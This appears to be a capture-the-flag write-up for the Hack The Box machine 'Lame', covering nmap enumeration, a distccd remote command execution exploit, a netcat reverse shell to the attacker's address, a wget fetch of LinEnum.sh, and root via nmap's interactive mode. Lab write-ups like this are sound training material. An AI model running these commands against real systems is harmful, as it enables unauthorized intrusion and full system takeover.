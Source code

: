 # HTB-Writeups

## Lame


   ![image of bashed](/assets/newlamepic.png)


### Enumeration (Information Gathering):
Starting off with an nmap scan to check which ports are open:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb (netbios)

After doing a full port scan using:
`nmap -sC -sV -oA nmap/lamefull 10.10.10.3 --max-retries 0`, we get:


![nmap scan](/assets/Lamenmap.png)



Ports open after **full port** scan:
1. 21 - ftp
2. 22 - ssh
3. 139, 445 - smb

As we can see that port **21/ftp** is open, we can try and connect to it via ftp:
`ftp 10.10.10.3`
After enumerating the ftp server, we could not find anything interesting.
Check out the ftp, ssh, smb versions to see if they are vulnerable, and after googling we find out that they aren't vulnerable.
But after checking out port 3432 distccd, we found that it is vulnerable to a Remote Command Execution. There seems to be an nmap script avaiable for this vulnerability.
There is an nmap script avaiable for this and you can find it here:
[distcc-cve2004-2687 - RCE](https://nmap.org/nsedoc/scripts/distcc-cve2004-2687.html)

### Exploitation

Using the nmap script:
`sudo nmap -p 3632 10.10.10.3 --script distcc-cve2004-2687 --script-args="distcc-cve2004-2687.cmd=cmd"`

Putting out reverse shell payload in place of the cmd argument:
cmd = `/bin/nc -e /bin/sh 10.10.14.9 4445`

Setting up a Netcat listener on our attack machine to catch the shell:
`sudo nc -nlvp 4445`

After executing nmap script, we have successfully got a Reverse shell:

![lame rev shell](/assets/lamerevshell.png)

And we have the **USER SHELL!!!!**

Hence, we can grab the user flag from the directory: /home/makis/

### Privilege Escalation
Running our basic commands for privilege escalation such as checking for sudo rights, checking the kernel, OS version, checking if we belong to any admin groups, etc.
As we find nothing from basic enumeration, we setup a Python Web Server on our machine and get the LinEnum.sh script on our host machine.
Using `wget http://10.10.14.2/LinEnum.sh` to download the script and running `chmod +x LinEnum.sh` to make it executable.

After running the script we see that we have the suid bit enabled on the nmap binary.
SUID bit enabled means that if a file's SUID bit is enabled we can run that file as root.
![nmap suid bit enabled](/assets/privesc.png)

Using nmap in interactive mode:
`sudo nmap --interactive` (important to use sudo as we want to execute the binary as root)
Now running !sh to run bash from nmap.

![root user](/assets/root.png)

And we have got **ROOT!!!!**

